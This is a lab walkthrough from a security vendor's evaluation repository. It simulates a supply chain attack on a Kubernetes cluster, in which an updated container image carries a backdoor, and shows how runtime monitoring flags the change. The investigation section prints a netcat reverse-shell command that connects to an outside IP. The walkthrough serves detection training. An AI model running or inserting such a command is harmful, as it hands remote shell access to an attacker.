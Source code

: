 # Scenario - Supply Chain attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Pre-requisites
You will need
- a cluster where you can deploy services, deployments, pods, with access to docker image hub for pulling images
- a kubectl client
- a kubectl configuration with its current context pointing to the cluster

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain

NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   NodePort    10.43.201.79    <none>        80:30135/TCP   25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup
We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.

![K8s view of the application](./supply_chain_1.png)

We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.

![rsvp app pod spec](./supply_chain_2.png)

We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'
![investigate container](./supply_chain_3.png)

This brings us to a process view of everything running inside of the container:

![container process view](./supply_chain_4.png)

We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file supply-chain.yaml under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f supply-chain.yaml

namespace/supply-chain unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```
We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the supply-chain namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:

![container process view](./supply_chain_6.png)

On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail.

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:

![compromised container process view](./supply_chain_5.png)
Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command
```bash
/tmp/nc 54.161.223.45 443 -e /bin/bash
```
Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the next scenario.